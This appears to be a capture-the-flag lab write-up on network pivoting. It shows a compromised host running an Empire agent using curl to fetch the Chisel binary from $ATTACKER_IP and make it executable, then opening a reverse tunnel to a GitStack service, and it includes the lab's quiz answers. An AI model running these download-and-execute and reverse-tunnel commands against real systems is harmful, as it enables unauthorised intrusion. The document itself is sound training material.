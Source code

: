 We'll use chisel for pivoting through the network. First, download [Chisel linux amd 64](https://github.com/jpillora/chisel/releases)

```bash
$ mv ~/Downloads/chisel_1.7.7_linux_amd64.gz .

$ gzip -d chisel_1.7.7_linux_amd64.gz

$ mv chisel_1.7.7_linux_amd64 chisel
```

Start http server:

```bash
$ sudo python3 -m http.server 80
```

In the Empire Agent:

```bash
$ curl http://$ATTACKER_IP:80/chisel -o chisel-unknown && ls -lah && chmod +x chisel-unknown
```

Next, on the attacker machine (I cloned the chisel repo):

```bash
$ go run main.go server -p 8000 --reverse
```

Spawn another Empire Agent, run the following command and kill stale agents:

```bash
$ ./chisel-unknown client $ATTACKER_IP:8000 R:10001:10.200.90.150:80 &
```

Documentation for killing stale Empire agents is available [here](https://bc-security.gitbook.io/empire-wiki/restful-api/admin-functionality)

If everything went fine, in the terminal that has chisel server running, the following
line should have appeared:

```
$DATE server: session#1: tun: proxy#R:10001=>10.200.90.150:80: Listening
```

Navigate to "http://localhost:10001/". You should see this page:

![forwarded-service](https://i.postimg.cc/15hG9WQ3/forwarded-service.png)

-  What is the name of the program running the service?

> gitstack

- Do these default credentials work (Aye/Nay)?

> Nay

- Use the command: searchsploit SERVICENAME, on Kali to search for exploits related to this service.

You will see that there are three publicly available exploits.
There is one Python RCE exploit for version 2.3.10 of the service. What is the EDB ID number of this exploit?
